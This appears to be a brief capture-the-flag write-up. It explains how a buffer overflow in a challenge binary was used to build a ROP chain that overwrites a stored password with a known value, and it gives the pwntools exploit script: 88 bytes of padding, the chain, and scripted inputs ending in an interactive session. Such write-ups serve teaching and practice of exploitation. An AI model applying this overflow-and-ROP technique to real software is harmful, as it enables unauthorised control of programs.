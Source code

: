There were multiple vulnerabilities and multiple methods of exploitation for this challenge, so I chosen the simplest one. I used the BOF to achive a ROP attack, then I called `gets` with `good_pass` as argument and I updated it with a known value, then I jumped back to `main`. 

```python
rop = ROP(exe)
rop.gets(0x601060)
rop.main()

_sndal(':', cyclic(88) + rop.chain())
_sndal(':', '000')
_sndal('!', '12345\x00')
_sndal(':', 'misu')
_sndal(':', '12345')

io.interactive()
```
